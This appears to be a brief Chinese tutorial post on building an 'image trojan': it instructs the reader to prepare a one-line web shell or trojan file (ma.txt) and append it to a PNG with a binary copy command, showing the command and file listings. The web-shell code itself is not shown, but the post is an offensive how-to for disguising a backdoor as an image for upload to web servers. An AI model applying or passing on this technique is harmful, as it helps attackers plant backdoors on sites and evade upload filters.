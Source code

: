 ```yaml
---
title: 图片网马合成
date: 1970-01-01 00:00:00
categories: 
tags: 

---
```

首先装备我的一句话木马或者是小马、大马防止到当前目录（我这里用的是ma.txt），然后在在装备一个图片（zd.png）。下面开始合并我们的图片马。

```powershell
$ ll
total 5
-rw-r--r-- 1 SOLE 197609   33 8月  19 09:32 ma.txt
-rw-r--r-- 1 SOLE 197609 1353 8月  19 09:30 zd.png

$ copy zd.png /b + ma.txt /a ma.png
zd.png
ma.txt
已复制         1 个文件。

$ ll
total 9
-rw-r--r-- 1 SOLE 197609 1387 8月  19 09:35 ma.png
-rw-r--r-- 1 SOLE 197609   33 8月  19 09:32 ma.txt
-rw-r--r-- 1 SOLE 197609 1353 8月  19 09:30 zd.png
```

